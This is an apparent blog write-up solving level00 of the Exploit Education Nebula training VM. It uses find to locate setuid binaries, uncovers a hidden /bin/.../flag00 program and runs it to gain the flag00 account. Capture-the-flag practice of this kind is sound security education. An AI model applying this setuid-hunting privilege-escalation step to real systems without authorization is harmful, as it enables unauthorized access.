 ```yaml
---
layout: single_c
title:  "Expoit-Education Nebula Level 00"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
author_profile: true

---
```

Exploit Education Level 0

### Challenge
    This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

    Alternatively, look at the find man page.  

    To access this level, log in as `level00` with the password of `level00`.

### Solution
    We have to use find to find a file with setuser id bit set
    
    
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less ```
        
    lets see what the parameters indicate
        
        ```/               it asks find to look for files in root directory
        -perm -4000     its is used to display all files with the setuserid set
        2>/dev/null     gets rid of all error messages```
        
        
        ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less
        /bin/.../flag00
        /bin/fusermount
        /bin/mount
        /bin/pis
        /bin/ping6
        /bin/su
        /bin/umount
        /sbin/mount.ecryptfs_private
        /usr/bin/at
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd```
        
    we can see a file named `flag00`. lets investigate 
        ```level00@nebula:/$ cd /bin/.../
        level00@nebula:/bin/...$ ls -la
        total 8
        drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
        drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
        -rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00```
    
    we can see that the `setuserid` bit is set for `flag00`. lets run it
        ```level00@nebula:/bin/...$ ./flag00
        Congrats, now run getflag to get your flag!
        flag00@nebula:/bin/...$ getflag
        You have successfully executed getflag on a target account```
        
    ####Solved